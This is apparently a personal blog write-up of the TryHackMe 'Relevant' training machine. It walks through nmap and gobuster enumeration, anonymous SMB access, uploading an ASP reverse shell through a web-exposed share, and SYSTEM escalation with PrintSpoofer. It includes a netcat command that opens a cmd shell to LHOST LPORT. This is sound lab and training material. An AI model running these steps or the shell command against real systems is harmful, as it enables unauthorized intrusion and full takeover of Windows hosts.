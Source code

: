 ```yaml
---
title: TryHackMe | Relevant Writeup
categories: [pentesting]
tags: [tryhackme, oscp, smb]
---
```


# TryHackMe | Relevant Writeup (No Metasploit)

## Approach
Because I am looking forward getting the OSCP, I will avoid using automatic exploitation tools such as Metasploit or SQLMap.

As I first look into the page, the only thing I see is an IIS Windows Server image, with nothing else in the code, so we start by doing a port scan with Nmap

```console
nmap -sC -sV -p- Target_IP -oN relevant.nmap
```

At the same time I will be running GoBuster with Seclists' web-content wordlist to find interesting directories.

```console
gobuster dir -u Target_IP -w /usr/share/wordlists/seclist/Discovery/Web-Content/big.txt
```

While GoBuster is running I'll take a look to the nmap result

```console
Host is up (0.017s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-06-26T16:22:35
|_Not valid after:  2023-12-26T16:22:35
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-27T16:42:47+00:00
|_ssl-date: 2023-06-27T16:43:28+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:93:A8:71:61:09 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-27T09:42:47-07:00
|_nbstat: NetBIOS name: RELEVANT, NetBIOS user: <unknown>, NetBIOS MAC: 0293a8716109 (unknown)
| smb2-time: 
|   date: 2023-06-27T16:42:47
|_  start_date: 2023-06-27T16:22:53
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: 0s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We see the machine is running SMB so let's enumerate it.

![SMB enum result 1](../assets/posts/relevant/1.png)

We see a share called "nt4wrksv", we can try to log in anonimously

![SMB enum result 2](../assets/posts/relevant/2.png)

There is an interesting file there, we download it so we can have it handy. Let's take a look at its content.

![passwords.txt content](../assets/posts/relevant/3.png)

The file contais two encoded user passwords, and we see that they are encoded using base64 at a glance. We could decode them using the console but i preffer using CyberChef.

![passwords.txt content decoded](../assets/posts/relevant/4.png)

And here we have it, the passwords for users Bob and Bill.
After getting these credentials I tried to log in with to SMB and with SSH and it didn't work.

![psexec 1](../assets/posts/relevant/5.png)
![psexec 2](../assets/posts/relevant/6.png)

However, using psexec we can know that the user Bill is not even real, and Bob is but the password is wrong.
Here comes the only difficulty of this machine; it is a rabbit hole, as it provides you with fake credentials that have no use at all. So what can we do now?
The GoBuster scan we did at the start didn't file a single directory, so now we can do a couple things: look for vulnerabilities on the services or we can keep enumerating them.

The thing is, both methods can result in compromising the machine, for now I will do the SMB exploitation, because the other options is to use EternalBlue and it's not the objective of this room.

## SMB Exploitation
Let's go for the easy one first. We saw that using GoBuster directly on the main page (port 80) didn't get us any results, but we can enumerate the IIS webserver (port 49663).
<br>
We have found that there is a directory with the name "**nt4wrksv**", just like the SMB share we used to enum. When accessing the link we get a blank page but no errors, so we can try to path traversal to check if we can see the contents of the **passwords.txt** file that was in the share.

![nt4wrksv passwords.txt](../assets/posts/relevant/7.png)

And yes, we can view the file. Now we have access to a SMB share which can be accessed through browser, so let's craft our ASP reverse shell and stablish initial access to the machine.

![put reverse shell](../assets/posts/relevant/8.png)
![shell stablished](../assets/posts/relevant/9.png)

Now we have a shell and list the users to get the first flag.
![User flag](../assets/posts/relevant/10.png)

### Privilege escalation
First we check for exploitable tokens
```console
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have the **SeImpersonatePrivilege** token enabled, so no big deal to gain root acess. To do this we will upload PrintSpoofer and a netcat binary. Once we have both uploaded, we start another listener and run PrintSpoofer. You should get a bind shell with this command
```PrintSpoofer.exe -c “c:\inetpub\wwwroot\nt4wrksv\nc.exe LHOST LPORT -e cmd”```, but because we just need to check one flag and nothing else I decided to invoke a SYSTEM shell on the same session with ```PrintSpoofer.exe -i -c cmd```.

![Root flag](../assets/posts/relevant/11.png)

Finally we get the root flag.